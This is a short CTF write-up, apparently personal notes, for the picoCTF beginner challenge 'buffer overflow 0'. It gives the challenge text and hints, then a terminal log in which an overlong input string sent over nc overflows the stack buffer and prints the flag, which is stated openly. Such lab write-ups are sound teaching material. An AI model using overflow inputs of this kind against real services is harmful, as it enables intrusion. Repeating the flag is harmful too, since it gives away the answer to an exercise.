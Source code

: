 # buffer overflow 0

## Descripcion
Smash the stack Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/174/vuln). You can view source [here](https://artifacts.picoctf.net/c/174/vuln.c). And connect with it using: `nc saturn.picoctf.net 61481`

## Pistas
- How can you trigger the flag to print?
- If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.
- Run `man gets` and read the BUGS section. How many characters can the program really read?

## Solución

```
eltetor14-picoctf@webshell:~$ wget https://artifacts.picoctf.net/c/174/vuln
--2023-05-27 20:59:14--  https://artifacts.picoctf.net/c/174/vuln
Resolving artifacts.picoctf.net (artifacts.picoctf.net)... 108.156.172.120, 108.156.172.42, 108.156.172.6, ...
Connecting to artifacts.picoctf.net (artifacts.picoctf.net)|108.156.172.120|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16016 (16K) [application/octet-stream]
Saving to: 'vuln'

vuln                                            100%[======================================================================================================>]  15.64K  --.-KB/s    in 0s      

2023-05-27 20:59:14 (148 MB/s) - 'vuln' saved [16016/16016]

eltetor14-picoctf@webshell:~$ nc saturn.picoctf.net 61481
Input: 111111111111111111111111111111111121212
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef7314c6}

eltetor14-picoctf@webshell:~$ 
```

## Bandera
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef7314c6}

## Notas adicionales

## Referencias